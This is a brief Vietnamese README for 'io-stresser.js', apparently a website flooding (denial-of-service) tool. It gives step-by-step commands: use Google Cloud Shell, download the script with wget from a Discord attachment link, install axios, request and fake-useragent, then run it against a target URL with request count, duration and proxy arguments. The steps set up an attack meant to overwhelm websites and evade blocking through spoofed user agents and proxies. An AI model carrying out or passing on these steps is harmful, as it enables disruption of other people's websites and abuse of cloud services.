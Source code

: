 
<p align="center">
<h1>IO-STRESSER.JS</h1>
</p>

### Mỗi trường thực hiện
[Google Shell](https://shell.cloud.google.com/)

### Cài đặt
Tải xuống io-stresser
```
wget https://cdn.discordapp.com/attachments/912663711297183744/918331196008710254/io-stresser.js
```
Cài đặt npm nếu cần
```
apt install npm -y
```
Cài đặt axios
```
npm install axios
```
Cài đặt request
```
npm install request
```
Cài đặt fake-useragent
```
npm install fake-useragent
```
Khởi động io-stresser.js
```
node io-stresser.js
```
### Cách sử dụng
```
node io-stresser.js <URL> 10000 5 proxy
```
